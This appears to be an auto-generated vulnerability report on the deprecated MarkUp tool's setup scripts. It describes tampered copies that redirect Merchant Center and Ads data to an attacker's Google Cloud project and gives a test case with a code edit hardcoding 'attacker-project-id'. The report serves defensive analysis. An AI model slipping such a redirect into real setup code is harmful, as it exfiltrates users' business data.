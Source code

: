- Vulnerability Name: Data Redirection via Malicious Script Modification
- Description:
    1. An attacker socially engineers a user into downloading and running a modified version of the `setup.sh` script.
    2. The attacker modifies the `setup.sh` or `cloud_env_setup.py` script to replace the user's intended Google Cloud Project ID with an attacker-controlled Google Cloud Project ID. This modification can be done by directly editing the script or by providing a different project ID via command-line arguments if the script is modified to accept and prioritize external input over user-provided input in the original command.
    3. The user, unaware of the malicious modification, executes the altered `setup.sh` script, providing their Google Merchant Center ID and Google Ads Customer ID as prompted.
    4. The modified script proceeds with the installation process, but instead of configuring data transfers to the user's intended Google Cloud project, it configures them to the attacker's Google Cloud project.
    5. As a result, all Google Merchant Center and Google Ads data intended for the user's analysis are instead transferred to and stored within the attacker's Google Cloud project.
- Impact:
    - Confidentiality Breach: Sensitive Google Merchant Center and Google Ads data, including product information, sales performance, and advertising metrics, are exfiltrated to an attacker-controlled Google Cloud project.
    - Data Loss for the legitimate user: The user's data is not stored in their intended project, hindering their ability to analyze their own business data using the MarkUp tool.
    - Potential further malicious activities: The attacker can use the stolen data for competitive advantage, sell it to third parties, or use it to launch further attacks against the victim's business.
- Vulnerability Rank: High
- Currently Implemented Mitigations:
    - Deprecation Notice: The `README.md` file clearly states that the tool is deprecated and points to a new, officially supported tool (`Shopping Insider`). This serves as a soft mitigation by discouraging new users from adopting MarkUp and encouraging existing users to migrate, thus reducing the potential attack surface over time.
    - Disclaimer: The `README.md` also includes a disclaimer stating "This is not an officially supported Google product.", which implicitly warns users about potential risks and lack of official support, suggesting they should use it at their own risk.
- Missing Mitigations:
    - Input Validation: The `setup.sh` and `cloud_env_setup.py` scripts lack validation of the project ID and other user inputs. There is no check to ensure the project ID format is correct or if the user has the necessary permissions for the specified project *before* proceeding with the setup.
    - Integrity Checks: There are no mechanisms to verify the integrity of the `setup.sh` or `cloud_env_setup.py` scripts before execution. This would involve techniques like cryptographic signatures to ensure the scripts haven't been tampered with since their original release.
    - Secure Distribution: The project is distributed via GitHub, which is a public platform. While GitHub itself is secure, there's no secure channel for users to verify they are downloading the legitimate tool from the intended source, making it easier for attackers to distribute modified versions.
    - User Awareness Training: No explicit warnings or guidelines within the project documentation to educate users about the social engineering risks associated with running scripts from public repositories and the importance of verifying the script's integrity.
- Preconditions:
    - User downloads the MarkUp tool from the public GitHub repository.
    - Attacker gains the ability to distribute a modified version of the MarkUp tool (e.g., via phishing, malicious websites, or compromised software repositories).
    - User is tricked into downloading and running the attacker's modified `setup.sh` script.
    - User has valid credentials and permissions for their Google Merchant Center and Google Ads accounts, and for *some* Google Cloud Project (attacker relies on user not carefully checking the project ID used during setup).
- Source Code Analysis:
    1. `setup.sh`: This script is the entry point for installation. It directly passes command-line arguments to `cloud_env_setup.py` without any sanitization or validation.
    ```bash
    python cloud_env_setup.py "$@"
    ```
    2. `cloud_env_setup.py`: This script uses `argparse` to parse arguments: `--project_id`, `--merchant_id`, `--ads_customer_id`, `--market_insights`.
    ```python
    parser = argparse.ArgumentParser()
    parser.add_argument('--project_id', help='GCP project id.', required=True)
    parser.add_argument(...)
    args = parser.parse_args()
    ads_customer_id = args.ads_customer_id.replace('-', '')
    data_transfer = cloud_data_transfer.CloudDataTransferUtils(args.project_id)
    ...
    merchant_center_config = data_transfer.create_merchant_center_transfer(
        args.merchant_id, args.dataset_id, args.market_insights)
    ads_config = data_transfer.create_google_ads_transfer(ads_customer_id,
                                                            args.dataset_id)
    ```
    The `args.project_id` is directly used to initialize `CloudDataTransferUtils` and is later used in methods like `create_merchant_center_transfer` and `create_google_ads_transfer` within `cloud_data_transfer.py`.
    3. `cloud_data_transfer.py`: The `__init__` method of `CloudDataTransferUtils` takes `project_id` as an argument and stores it as `self.project_id`. This `self.project_id` is used throughout the class when making API calls to create data transfers, including specifying the parent project for the transfer configurations.
    ```python
    class CloudDataTransferUtils(object):
      def __init__(self, project_id: str):
        self.project_id = project_id
        self.client = bigquery_datatransfer.DataTransferServiceClient()

      def create_merchant_center_transfer(...):
          ...
          parent = 'projects/' + self.project_id + '/locations/' + dataset_location
          request = bigquery_datatransfer.CreateTransferConfigRequest(
              parent=parent,
              transfer_config=input_config,
              authorization_code=authorization_code,
          )
          transfer_config = self.client.create_transfer_config(request)
          ...

      def create_google_ads_transfer(...):
          ...
          parent = 'projects/' + self.project_id + '/locations/' + dataset_location
          request = bigquery_datatransfer.CreateTransferConfigRequest(
              parent=parent,
              transfer_config=input_config,
              authorization_code=authorization_code,
          )
          transfer_config = self.client.create_transfer_config(request=request)
          ...
    ```
    The code directly uses the provided `project_id` without any validation to create data transfers. If an attacker can control this `project_id`, they can redirect the data transfer to their own project.
- Security Test Case:
    1. **Setup Attacker Environment:** Create a Google Cloud Project controlled by the attacker (attacker-project-id).
    2. **Modify `setup.sh`:**
        - Download the original `setup.sh` and `cloud_env_setup.py` scripts from the repository.
        - In `cloud_env_setup.py`, modify the `main` function to hardcode the project ID to the attacker's project ID (attacker-project-id), bypassing the command-line argument:
        ```python
        def main():
          args = parse_arguments()
          # Original line: data_transfer = cloud_data_transfer.CloudDataTransferUtils(args.project_id)
          # Modified line:
          data_transfer = cloud_data_transfer.CloudDataTransferUtils('attacker-project-id')
          ...
        ```
        - Alternatively, modify `setup.sh` to replace the project ID argument when calling `cloud_env_setup.py`.
    3. **Social Engineering:** Trick a test user into downloading and running this modified `setup.sh` script. This could be simulated by sending the modified script to a test user via email or hosting it on a website with instructions to install MarkUp.
    4. **User Execution:** The test user executes the modified `setup.sh` script, providing their *actual* Merchant Center ID, Google Ads Customer ID, and *their own* intended Google Cloud Project ID (victim-project-id) if prompted (though the modified script will ignore or override the project ID input).
    5. **Observe Data Transfer:**
        - **Attacker's Project (attacker-project-id):** Check the BigQuery dataset in the attacker's Google Cloud project. Data transfer datasets for Google Merchant Center and Google Ads, named according to the dataset ID specified in the script (default `markup`), should be created and populated with the victim's data.
        - **Victim's Project (victim-project-id):** Check the BigQuery dataset in the victim's intended Google Cloud project. No MarkUp datasets or data transfers will be created, or if they are created (due to other attempts), they will not contain the victim's Merchant Center and Ads data from the current test run.
    6. **Verification:** If the attacker's project receives the data and the victim's project does not, the vulnerability is confirmed.